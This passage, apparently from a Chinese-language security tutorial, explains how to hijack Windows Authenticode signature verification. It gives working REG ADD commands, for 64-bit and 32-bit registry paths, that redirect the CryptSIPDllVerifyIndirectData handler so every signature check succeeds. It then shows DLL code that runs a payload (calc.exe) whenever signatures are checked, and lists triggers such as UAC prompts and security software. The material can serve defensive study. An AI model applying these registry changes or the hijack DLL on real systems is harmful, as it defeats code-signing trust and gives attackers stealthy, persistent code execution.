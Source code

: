 代码如下：

```
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "Dll" /t REG_SZ /d "C:\Windows\System32\ntdll.dll" /f

REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "FuncName" /t REG_SZ /d "DbgUiContinue" /f
```

这样，就不需要在系统上留下自己编写的dll

对于64位系统，存在32位的注册表键值

如果使用32位的程序，如32位的signtool和sigcheck，为了绕过验证，还需要修改32位的注册表键值，对应代码如下：

```
REG ADD "HKLM\SOFTWARE\Wow6432Node\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "Dll" /t REG_SZ /d "C:\Windows\System32\ntdll.dll" /f

REG ADD "HKLM\SOFTWARE\Wow6432Node\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "FuncName" /t REG_SZ /d "DbgUiContinue" /f
```

## 0x04 签名验证劫持
---

修改注册表，编写dll实现对签名验证过程的绕过，如果我们在dll的导出函数里面加入自己的代码，这就实现了签名验证劫持

在签名验证中加入执行代码：

```
BOOL APIENTRY DllMain( HANDLE hModule, 
                       DWORD  ul_reason_for_call, 
                       LPVOID lpReserved
					 )
{
    return TRUE;
}
BOOL WINAPI test1() 
{
	WinExec("calc.exe",SW_SHOWNORMAL);
	return TRUE;
}
```

只要涉及签名验证的操作，加载我们自己的dll，就会弹出计算器

以下程序会使用签名验证操作：

- DllHost.exe - When the “Digital Signatures” tab is displayed in file properties
- Process Explorer - When the “Verified Signer” tab is displayed
- Autoruns
- Sigcheck
- consent.exe - Any time a UAC prompt is displayed
- signtool.exe
- smartscreen.exe
- Get-AuthenticodeSignature
- Set-AuthenticodeSignature
- Security vendor software that performs certificate validation based on calls to WinVerifyTrust.
